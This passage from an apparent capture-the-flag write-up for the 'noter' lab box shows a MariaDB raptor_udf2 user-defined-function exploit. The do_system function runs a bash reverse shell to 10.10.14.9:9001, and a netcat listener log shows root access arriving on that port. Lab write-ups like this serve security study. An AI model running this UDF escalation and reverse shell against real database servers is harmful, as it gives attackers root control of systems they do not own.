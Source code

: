 ```sql
MariaDB [mysql]> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.000 sec)

MariaDB [mysql]> select do_system("bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'");
```

**Note:**  The path were we are going to dump the file is not correct as mentioned in the exploit so I modified the path and to modify the path use this to fetch the data `show variables like '%plugin%';`

```shell
┌─[htb-enum0re☺pwnbox-base]─[~/htb/boxes/noter/www]
└──╼ $sudo nc -lvnp 9001
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.160.
Ncat: Connection from 10.10.11.160:43120.
bash: cannot set terminal process group (952): Inappropriate ioctl for device
bash: no job control in this shell
root@noter:/var/lib/mysql# ls
```